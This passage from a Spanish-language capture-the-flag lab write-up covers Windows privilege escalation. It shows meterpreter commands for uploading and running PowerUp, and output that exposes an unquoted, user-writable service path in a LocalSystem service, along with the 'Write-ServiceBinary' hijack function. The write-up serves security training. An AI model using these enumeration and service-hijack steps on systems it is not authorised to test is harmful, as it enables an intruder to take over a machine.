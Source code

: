 ## 3-Escalación de privilegios.

Utilizaremos la herramienta PowerUp para enumerar la maquina.

Primero subiremos el archivo a la maquina victima con el comando "upload". Recordar que actualmente estamos utilizando la consola meterpreter, por lo cual necesitamos la consola de windows powershell para poder ejecutar el programa, para ello activaremos el modulo de powershell -> load powershell , powershell_shell

![](/assets/images/thm-steelmountain/14.JPG)

Ejecutamos el programa utilizando 1- ". ./PowerUp.ps1" y 2- "Invoke-AllChecks".

Nos devuelve todo esto, los servicios del sistema.

```
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
```